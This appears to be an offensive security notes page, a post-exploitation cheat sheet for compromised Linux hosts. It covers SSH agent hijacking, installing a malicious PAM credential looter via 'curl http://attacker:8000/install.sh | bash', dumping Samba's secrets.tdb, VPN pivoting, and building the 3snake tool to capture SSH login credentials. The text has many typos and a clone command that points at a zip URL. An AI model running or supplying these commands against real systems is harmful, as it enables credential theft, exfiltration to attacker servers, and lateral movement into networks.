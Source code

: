 # SSH Hijacking
- In order for this method to be seccessuful, the compromised machine should have an acive ssh sessesion established to another machive via `Public Key Authentication`.

- If we are root on the compromised system, it is theb possible to either compromise the ssh agent or access the ssh agent unix domain socket and hijack the connection.

# Stealing SSH Credentials
- You have compromised a remote machine and get root and youu would like to collect as many credentials as possible to move laterally.

- We can do steal ssh credentials thoud `a malicious PAM module`
- Every SSH connection attempt will be forwarded to a server under your control, accompanied by the credentials used for this connection attempts

On attacking machine:
Host and edit `install.sh` and `looter.py` pointing the url variable to a server under your control, that can log POST request.

```sh
sudo git clone https://github.com/mthbernarder/sshLooter.git
```

On the compromised machine:

```
curl http://attacker:8000/install.sh | bash
```

# Samba secret to domain admin
Assuming we're root on a machone

```
tdbdump /var/lib/samba/private/secrets.tdb
```

(From Linux to AD)[[https://medium.com/@br4nsh/from-linux-to-ad-10efb529fae91]]

# VPNPivot

```sh
git clone https://github.com/0x36/VPNPivot.sh && cd VPNPivot
./autogen.sh
./configure
make && make install
```


[[Dumping Browsers Credentails]]

# Sudo ssh access
You have compromised a remote machine and get root
This well capture creds information on ssh login.

Run this script on target machine

```sh
git clone https://www.github.com/blendin/3snake/archive/master.zip
unzip master.zip
cd 3snake-master
make
./3snake
```